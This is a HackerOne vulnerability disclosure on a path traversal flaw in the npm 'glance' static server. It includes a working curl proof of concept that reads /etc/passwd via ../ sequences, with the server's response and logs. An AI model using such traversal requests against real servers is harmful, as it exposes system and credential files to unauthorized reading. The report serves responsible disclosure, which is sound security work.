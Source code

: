 # [glance] Path Traversal in glance static file server allows to read content of arbitrary file

## Report Details
- **Report ID**: 310106
- **URL**: https://hackerone.com/reports/310106
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-01-29T10:34:13.032Z
- **Disclosed**: 2018-03-04T11:54:56.505Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

There is Path Traversal vulnerability in ```glance``` module. This issue allows to read arbitrary files from the server, where ```glance``` is installed.

## Module

**glance**

a quick disposable http server for static files

https://www.npmjs.com/package/glance

Stats
33 downloads in the last day
34 downloads in the last week
269 downloads in the last month

~3000 estimated downloads per year

## Description

```glance``` serves files from the server where was installed. No path sanitization is implemented, thus malicious user is able to read content of any file from the server using simple ```curl``` command (adjust number of ../ to reflect your system):

```
curl -v --path-as-is http://127.0.0.1:8080/../../../../../../etc/passwd
```

The result:

```
me:~/playground/hackerone/Node$ curl -v --path-as-is http://127.0.0.1:8080/../../../../../../etc/passwd
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET /../../../../../../etc/passwd HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< content-type: application/octet-stream
< etag: 6d51e6677c898282619137b0c74f0cab
< last-modified: Fri, 26 Jan 2018 12:04:19 +0000
< content-length: 2559
< Date: Mon, 29 Jan 2018 10:23:45 GMT
< Connection: keep-alive
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
(..)
guest-cz1ton:x:999:999:Guest:/tmp/guest-cz1ton:/bin/bash
postgres:x:124:131:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
* Connection #0 to host 127.0.0.1 left intact
me:~/playground/hackerone/Node$
```

## Steps To Reproduce:

- install ```glance```:

```
$ npm install glance
```

- run ```glance``` in direcotry of your choice

```
me:~/playground/hackerone/Node$ ./node_modules/glance/bin/glance.js --verbose --dir ./node_modules/
glance serving node_modules/ on port 8080
::1 read node_modules/
::1 read node_modules/bash-color/
::1 read node_modules/bash-color/README.md
::1 read ./
::1 read malware_frame.html
::1 read malware.js
ERR404 ::ffff:127.0.0.1 on ../../../etc/passwd
ERR404 ::ffff:127.0.0.1 on ../../../../etc/passwd
::ffff:127.0.0.1 read ../../../../../etc/passwd
::ffff:127.0.0.1 read ../../../../../etc/passwd
```

You can see in the log above all my requests sent to ```glance```, including ```curl``` requests from PoC, where I was able to traverse directory tree and read content of ```/etc/passwd``` file

## Supporting Material/References:

- Ubuntu 16.04 LTS
- Chromium 66.0.3333.0 (Developer Build) (64-bit) 
- Node.js version: v8.9.4 LTS
- npm version: 5.6.0
- curl 7.47.0


Please feel free to invite module maintainer to this report. I haven't contacted maintainer as I want to keep the process of fixing and disclosing bug consistent through HackerOne platform only.

I hope my report will help to keep Node.js ecosystem and its users safe in the future.

Regards,

Rafal 'bl4de' Janicki

## Impact

This vulnerability allows malicious user to read content of arbitrary file from the server.

## Attachments
No attachments
